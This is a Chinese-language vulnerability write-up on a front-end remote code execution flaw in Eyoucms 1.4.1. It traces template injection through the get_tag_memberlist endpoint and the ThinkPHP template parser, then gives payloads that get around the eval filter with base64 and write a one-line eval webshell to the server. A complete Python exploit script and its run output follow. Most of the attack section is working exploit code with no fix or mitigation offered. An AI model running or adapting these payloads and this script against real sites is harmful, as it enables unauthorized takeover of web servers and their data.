


Eyoucms 1.4.1 前台rce
=====================

一、漏洞简介
------------

二、漏洞影响
------------

Eyoucms 1.4.1

三、复现过程
------------

### 漏洞分析

进入`/application/api/controller/Ajax.php`中的\*\*`function get_tag_memberlist`\*\*方法

    public function get_tag_memberlist()
    {
        if (IS_AJAX_POST) {
            $htmlcode = input('post.htmlcode/s');
            $htmlcode = htmlspecialchars_decode($htmlcode);

            $attarray = input('post.attarray/s');
            $attarray = htmlspecialchars_decode($attarray);
            $attarray = json_decode(base64_decode($attarray));

            /*拼接完整的memberlist标签语法*/
            $innertext = "{eyou:memberlist";
            foreach ($attarray as $key => $val) {
                if (in_array($key, ['js'])) {
                    continue;
                }
                $innertext .= " {$key}='{$val}'";
            }
            $innertext .= " js='on'}";
            $innertext .= $htmlcode;
            $innertext .= "{/eyou:memberlist}";
            /*--end*/
            $msg = $this->display($innertext); // 渲染模板标签语法
            $data['msg'] = $msg;
            $this->success('读取成功！', null, $data);
        }
        $this->error('加载失败！');
    }

3 Line: 判断是否AJAX请求4 Line: 从post获取用户输入参数htmlcode的值并将结果赋值给\$htmlcode5 Line: 将\$htmlcode中的实体字符转换为正常字符7 Line: 从post获取用户输入参数attarray的值并将结果赋值给\$attarray8 Line: 将\$attarray中的实体字符转换为正常字符9 Line: 将\$attarray进行base64解码再json解码12 Line: 定义标签13\~18 Line:
使用foreach将\$attay以键值对的方式遍历出来，判断每一个元素是否为js如果是那么直接进入下一次循环，否则"{\$key}='{\$val}'"连接到标签后面19 Line: 闭合第一个标签20 Line: 将\$htmlcode拼接到标签后，作为内容使用21 Line: 将闭合标签拼接到\$innertext中23 Line: 调用基类中的display方法并将\$innertext传入

跟踪到`/core/library/think/Controll.php`文件中的\*\*`display`\*\*方法

    protected function display($content = '', $vars = [], $replace = [], $config = [])
    {
        return $this->view->display($content, $vars, $replace, $config);
    }

3 Line:
调用视图类中的display方法，并将\$content、\$vars、\$replace、\$config传入

跟踪到`/core/library/think/View.php`文件中的\*\*`display`\*\*方法

    public function display($content, $vars = [], $replace = [], $config = [])
    {
        return $this->fetch($content, $vars, $replace, $config, true);
    }

3 Line:
调用当前类中的fetch方法并将并将\$content、\$vars、\$replace、\$config传入

跟踪到`/core/library/think/View.php`文件中的\*\*`fetch`\*\*方法

    public function fetch($template = '', $vars = [], $replace = [], $config = [], $renderContent = false)
    {
        // 模板变量
        $vars = array_merge(self::$var, $this->data, $vars);

        // 页面缓存
        ob_start();
        ob_implicit_flush(0);
        // 渲染输出
        try {
            $method = $renderContent ? 'display' : 'fetch';
            // 允许用户自定义模板的字符串替换
            // $replace = array_merge($this->replace, $replace, (array) $this->engine->config('tpl_replace_string'));
            $replace = array_merge($this->replace, (array) $this->engine->config('tpl_replace_string'), $replace); // 解决一个页面上调用多个钩子的冲突问题 by 小虎哥
            /*插件模板字符串替换，不能放在构造函数，毕竟构造函数只执行一次 by 小虎哥*/
            // if ($this->__isset('weappInfo')) {
            //     $weappInfo = $this->__get('weappInfo');
            //     if (!empty($weappInfo['code'])) {
            //         $replace['__WEAPP_TEMPLATE__'] = ROOT_DIR.'/'.WEAPP_DIR_NAME.'/'.$weappInfo['code'].'/template';
            //     }
            // }
            /*--end*/
            $this->engine->config('tpl_replace_string', $replace);
            $this->engine->$method($template, $vars, $config);
        } catch (\Exception $e) {
            ob_end_clean();
            throw $e;
        }

        // 获取并清空缓存
        $content = ob_get_clean();
        // 内容过滤标签
        Hook::listen('view_filter', $content);

        // $this->checkcopyr($content);

        return $content;
    }

4 Line:
将当前类中的成员属性\$var、\$data以及传入的\$vars合并为一个数组并赋给\$vars7\~8 Line: 开启页面缓存11 Line:
使用三元运算符判断外部传入的\$renderContent是否为真，若为真那么将display赋值给\$method，否则将fetch赋值给\$method24 Line: 调用Think类中的\$method方法并将\$template、\$vars、\$config传入

跟踪到`/core/library/think/view/driver/Think.php`中的\*\*`display`\*\*方法

    public function display($template, $data = [], $config = [])
    {
        $this->template->display($template, $data, $config);
    }

3 Line: 调用模板类中的display方法并将\$template、\$data、\$config传入

跟踪到`/core/library/think/Template.php`中的\*\*`display`\*\*方法

    public function display($content, $vars = [], $config = [])
    {
        if ($vars) {
            $this->data = $vars;
        }
        if ($config) {
            $this->config($config);
        }
        $cacheFile = $this->config['cache_path'] . $this->config['cache_prefix'] . md5($content) . '.' . ltrim($this->config['cache_suffix'], '.');
        if (!$this->checkCache($cacheFile)) {
            // 缓存无效 模板编译
            $this->compiler($content, $cacheFile);
        }
        // 读取编译存储
        $this->storage->read($cacheFile, $this->data);
    }

3\~5 Line:
判断外部传入的\$vars是否有值，若有那么则将\$vars赋值给当前类中的成员属性data中6\~8 Line:
判断\$config是否有值，若有那么将\$config传入当前类中的config方法9 Line: 生成缓存文件名称赋值给\$cacheFile10\~13 Line:
判断是否没有\$cacheFile这个缓存文件，为真则调用当前类中的compiler方法并且将\$content及\$cacheFile传入其中

跟踪到`/core/library/think/Template.php`中的\*\*`compiler`\*\*方法

    private function compiler(&$content, $cacheFile)
    {
        // 判断是否启用布局
        if ($this->config['layout_on']) {
            if (false !== strpos($content, '{__NOLAYOUT__}')) {
                // 可以单独定义不使用布局
                $content = str_replace('{__NOLAYOUT__}', '', $content);
            } else {
                // 读取布局模板
                $layoutFile = $this->parseTemplateFile($this->config['layout_name']);
                if (is_array($layoutFile)) { // 引入模板的错误友好提示 by 小虎哥
                    $content = !empty($layoutFile['msg']) ? $layoutFile['msg'] : $content;
                } else if ($layoutFile) {
                    // 替换布局的主体内容
                    $content = str_replace($this->config['layout_item'], $content, file_get_contents($layoutFile));
                }
            }
        } else {
            $content = str_replace('{__NOLAYOUT__}', '', $content);
        }

        // 模板解析
        $this->parse($content);
        if ($this->config['strip_space']) {
            /* 去除html空格与换行 */
            $find    = ['~>\s+<~', '~>(\s+\n|\r)~'];
            $replace = ['><', '>'];
            $content = preg_replace($find, $replace, $content);
        }
        // 优化生成的php代码
        $content = preg_replace('/\?>\s*<\?php\s(?!echo\b)/s', '', $content);
        // 模板过滤输出
        $replace = $this->config['tpl_replace_string'];
        $content = str_replace(array_keys($replace), array_values($replace), $content);
        // 添加安全代码及模板引用记录
        $content = '<?php if (!defined(\'THINK_PATH\')) exit(); /*' . serialize($this->includeFile) . '*/ ?>' . "\n" . $content;
        // 编译存储
        $this->storage->write($cacheFile, $content);
        $this->includeFile = [];
        return;
    }

23 Line: 将外部传入的\$content传到当前类中的parse（解析模板）方法中

跟踪到`/core/library/think/Template.php`中的\*\*`parse`\*\*方法

    public function parse(&$content)
    {
        // 内容为空不解析
        if (empty($content)) {
            return;
        }
        // 替换eyou:literal标签内容
        $this->parseEyouLiteral($content);
        // 替换literal标签内容
        $this->parseLiteral($content);
        // 解析继承
        $this->parseExtend($content);
        // 解析布局
        $this->parseLayout($content);
        // 检查eyou:include语法  by 小虎哥
        $this->parseEyouInclude($content);
        // 检查include语法
        $this->parseInclude($content);
        // 替换包含文件中literal标签内容
        $this->parseLiteral($content);
        // 替换包含文件中eyou:literal标签内容
        $this->parseEyouLiteral($content);
        // 检查PHP语法
        $this->parsePhp($content);

        // 获取需要引入的标签库列表
        // 标签库只需要定义一次，允许引入多个一次
        // 一般放在文件的最前面
        // 格式：<taglib name="html,mytag..." />
        // 当TAGLIB_LOAD配置为true时才会进行检测
        if ($this->config['taglib_load']) {
            $tagLibs = $this->getIncludeTagLib($content);
            if (!empty($tagLibs)) {
                // 对导入的TagLib进行解析
                foreach ($tagLibs as $tagLibName) {
                    $this->parseTagLib($tagLibName, $content);
                }
            }
        }
        // 预先加载的标签库 无需在每个模板中使用taglib标签加载 但必须使用标签库XML前缀
        if ($this->config['taglib_pre_load']) {
            $tagLibs = explode(',', $this->config['taglib_pre_load']);
            foreach ($tagLibs as $tag) {
                $this->parseTagLib($tag, $content);
            }
        }
        // 内置标签库 无需使用taglib标签导入就可以使用 并且不需使用标签库XML前缀
        $tagLibs = explode(',', $this->config['taglib_build_in']);
        foreach ($tagLibs as $tag) {
            $this->parseTagLib($tag, $content, true);
        }
        // 解析普通模板标签 {$tagName}
        $this->parseTag($content);

        // 还原被替换的eyou:Literal标签
        $this->parseEyouLiteral($content, true);

        // 还原被替换的Literal标签
        $this->parseLiteral($content, true);
        return;
    }

24 Line: 调用当前类中的parsePhp（解析php标签）方法并将\$content传入

跟踪到`/core/library/think/Template.php`中的\*\*`parsePhp`\*\*方法

    private function parsePhp(&$content)
    {
        // 短标签的情况要将<?标签用echo方式输出 否则无法正常输出xml标识
        $content = preg_replace('/(<\?(?!php|=|$))/i', '<?php echo \'\\1\'; ?>' . "\n", $content);

        // 过滤eval函数，防止被注入执行任意代码 by 小虎哥
        $view_replace_str = config('view_replace_str');
        if (isset($view_replace_str['__EVAL__'])) {
            if (stristr($content, '{eyou:php}')) { // 针对{eyou:php}标签语法处理
                preg_match_all('/{eyou\:php}.*{\/eyou\:php}/iUs', $content, $matchs);
                $matchs = !empty($matchs[0]) ? $matchs[0] : [];
                if (!empty($matchs)) {
                    foreach($matchs as $key => $val){
                        $valNew = preg_replace('/{(\/)?eyou\:php}/i', '', $val);
                        $valNew = preg_replace("/([\W]+)eval(\s*)\(/i", 'intval(', $valNew);
                        $valNew = preg_replace("/^eval(\s*)\(/i", 'intval(', $valNew);
                        $valNew = "{eyou:php}{$valNew}{/eyou:php}";
                        $content = str_ireplace($val, $valNew, $content);
                    }
                }
            } else if (stristr($content, '{php}')) { // 针对{php}标签语法处理
                preg_match_all('/{php}.*{\/php}/iUs', $content, $matchs);
                $matchs = !empty($matchs[0]) ? $matchs[0] : [];
                if (!empty($matchs)) {
                    foreach($matchs as $key => $val){
                        $valNew = preg_replace('/{(\/)?php}/i', '', $val);
                        $valNew = preg_replace("/([\W]+)eval(\s*)\(/i", 'intval(', $valNew);
                        $valNew = preg_replace("/^eval(\s*)\(/i", 'intval(', $valNew);
                        $valNew = "{php}{$valNew}{/php}";
                        $content = str_ireplace($val, $valNew, $content);
                    }
                }
            } else if (false !== strpos($content, '<?php')) { // 针对原生php语法处理
                $content = preg_replace("/(@)?eval(\s*)\(/i", 'intval(', $content);
                $this->config['tpl_deny_php'] && $content = preg_replace("/\?\bphp\b/i", "？ｍｕｍａ", $content);
            }
        }
        // end

        // PHP语法检查
        if ($this->config['tpl_deny_php'] && false !== strpos($content, '<?php')) {
            if (config('app_debug')) { // 调试模式下中断模板渲染 by 小虎哥
                throw new Exception('not allow php tag', 11600);
            } else { // 运营模式下继续模板渲染 by 小虎哥
                echo(lang('not allow php tag'));
            }
        }
        return;
    }

4 Line: 将模板中php短标签转换为21 Line: 判断传入的\$content中是否包含了{php}22 Line:
使用正则表达式匹配出\$content中所有包含了"{php}任意内容{/php}"的标签23 Line:
使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给\$matchs否则将空数组赋给\$matchs24 Line: 判断\$matchs不为空25 Line: 将\$matchs使用foreach循环遍历26 Line: 将\$val中的"{/任意空白字符php}"替换为空并赋给\$valnew27 Line: 将\$valnew中的"多个或零个0-9A-Za-Z\_eval("替换为"intval("28 Line: 将\$valnew中的"开始为eval任意空白字符("替换为"intval("29 Line: 将字符串"{php}{\$valNew}{/php}"赋给\$valnew30 Line: 将\$content中的\$val替换为\$valNew

### 漏洞复现

    Payload:attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php}

Payload生成方式:

    base64_encode(jsonstring)

eval会被替换成intval，所以我们采用base64加密写入webshell的方式php代码如下：

    file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg=="));

PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：

    <?php eval($_REQUEST[“w”]);?>

将php标签转换为json格式并加密：

    print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}")));

    eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=

pyload:

    attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb

htmlcode参数作为随机方式传递

### poc

    silly@PenetrationOs:~#: python eyoucms-ssti.py -u http://192.168.1.106:8085/ -o abc

    [+] 正在请求目标地址:http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist
    [*] 目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist存活
    [+] 正在向目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist写入abc.php
    [*] 疑似成功写入Webshell
    [+] 正在探测Webshell(http://192.168.1.106:8085/abc.php)是否存活
    [*] Webshell(http://192.168.1.106:8085/abc.php)已存活
    [*] 密码：ceshi
    [*]
    python

    #!/usr/bin/python

     -*- coding: UTF-8 -*-

    import requests

    import sys,getopt

    import json,base64

    import time

    class Eyoucms:

        session = None

        headers = None

        password = "ceshi"

        output = "ceshi"

        requesturi = "/?m=api&c=ajax&a=get_tag_memberlist"

        def __init__(self,headers):

            self.headers = headers

            self.getparam(sys.argv[1:])

            self.requestsdata = {

                "attarray":self.createpyload(),

                "htmlcode":time.time()

            }

            self.run()

        def getparam(self,argv):

            try:

                options, args = getopt.getopt(argv, "h:u:p:o:", ["help", "url=","password=","output="])

            except getopt.GetoptError:

                print 'eyoucms-ssti.py -u url -p password -o outputfile'

                return

            for option, value in options:

                if option in ("-h", "--help"):

                    print 'eyoucms-ssti.py -u url'

                if option in ("-u", "--url"):

                    if(self.request(value).status_code != 404):

                        self.url = value

                if option in ("-p", "--password"):

                        if(value != None):

                            self.password = value

                        else:

                            self.password = "ceshi"

                if option in ("-o", "--output"):

                        if(value != None):

                            self.output = value.replace(".php","")

                        else:

                            self.output = "ceshi"

        def run(self):

            url = self.url.rstrip('/')+self.requesturi

            print "[+] 正在请求目标地址:%s"%(url)

            if(self.request(url).status_code == 200):

                print "
     目标地址%s存活"%url

            else:

                print "[-] 目标地址%s探测失败"%url

                return

            print "[+] 正在向目标地址%s写入%s.php"%(url,self.output)

            if(self.request(url,"post").status_code == 200):

                print "
     疑似成功写入Webshell"

            shell = self.url.rstrip('/')+"/%s.php"%self.output

            print "[+] 正在探测Webshell(%s)是否存活"%(shell)

            if(self.request(shell).status_code == 200):

                print "
     Webshell(%s)已存活\n
     密码：%s"%(shell,self.password)

        def createpyload(self):

            short = base64.b64encode("<php eval($_REQUEST[%s]);?>"%self.password)

            file = self.output

            payload = {

                "{php}1{/php}":"{php}file_put_contents('./%s.php',base64_decode('%s'));{/php}"%(file,short)

            }

            return base64.b64encode(json.dumps(payload))

        def request(self,url,method="get"):

            respone = None

            if(not self.session):

                self.session = requests.Session()

            if(method == "get"):

                try:

                    respone = self.session.get(url=url,headers=self.headers)

                except requests.exceptions.ConnectTimeout:

                    print "[-] 请求%s超时"%url

                    return

                except requests.exceptions.ConnectionError:

                    print "[-] 请求%s无效"%url

                    return

                return respone

            elif(method == "post"):

                try:

                    respone = self.session.post(url=url,data=self.requestsdata,headers=self.headers)

                except requests.exceptions.ConnectTimeout:

                    print "[-] 请求%s超时"%url

                    return

                except requests.exceptions.ConnectionError:

                    print "[-] 请求%s无效"%url

                    return

            return respone

    if __name__ == "__main__":

        

        headers = {

            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0",

            "X-Requested-With":"XMLHttpRequest"

        }

        Eyoucms(headers)

参考链接
--------

> https://bbs.ichunqiu.com/thread-56458-1-1.html
